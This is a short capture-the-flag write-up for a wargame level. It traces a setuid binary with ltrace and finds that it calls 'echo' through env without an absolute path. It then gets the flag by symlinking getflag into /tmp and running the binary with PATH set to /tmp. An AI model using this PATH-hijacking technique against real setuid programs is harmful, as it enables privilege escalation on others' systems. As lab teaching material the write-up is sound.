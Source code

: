 ## level03

This level introduces [linux binary analyzers](https://opensource.com/article/20/4/linux-binary-analysis)

Also, it's highly recommend to get fimiliar with [setgid, setuid and sticky bit](https://ruvds.com/ru/helpcenter/suid-sgid-sticky-bit-linux/)

First, looking at the level03 library-function traces.
```bash
ltrace ./level03
```

Result:
```C
...
system("/usr/bin/env echo Exploit me")
...
```

We see that `echo` is not called with the absolute path. <br>
Also, the enviroment obtained from the env call. <br>
These lead us to the idea, that we can exploit it using binary substitution.<br>
```bash
# 1. Creating symbolic link to getflag from echo 
ln -s /bin/getflag /tmp/echo

# 2. Calling executable replacing the path where the executable file will be searched
PATH=/tmp ./level03
```